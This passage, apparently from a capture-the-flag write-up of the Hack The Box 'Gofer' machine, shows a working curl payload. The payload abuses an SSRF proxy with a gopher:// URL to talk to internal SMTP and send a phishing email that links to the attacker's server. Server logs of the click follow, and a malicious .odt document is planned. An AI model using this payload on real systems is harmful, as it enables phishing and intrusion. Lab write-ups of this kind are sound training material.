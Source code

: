 Same but different
```bash
updog
[+] Serving /home/blnkn/www...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://192.168.0.203:9090
Press CTRL+C to quit
10.10.11.225 - - [13/Aug/2023 19:58:59] "GET /index.html%22 HTTP/1.1" 302 -
10.10.11.225 - - [13/Aug/2023 19:59:00] "GET / HTTP/1.1" 200 -
10.10.11.225 - - [13/Aug/2023 20:04:00] "GET /index.html' HTTP/1.1" 302 -
10.10.11.225 - - [13/Aug/2023 20:04:00] "GET / HTTP/1.1" 200 -
```

Googling around, I found that quotes in html tags are not actually a requirement, and could confirm on my own machine that a simple href tag without the quotes works just fine. So let's try that.

```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/_HELO%252010%252E10%252E11%252E225%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253Dhttp%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as E9B76816D
221 2.0.0 Bye
1
```

Ok that's a 200, nice.
```bash
updog
[+] Serving /home/blnkn/www...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://192.168.0.203:9090
Press CTRL+C to quit
10.10.11.225 - - [13/Aug/2023 20:14:00] "GET /index.html HTTP/1.1" 200 -
```

Ok so Jocelyn is reading our emails and clicking on our links, so I guess, what's left to do now is the `bad.odt`
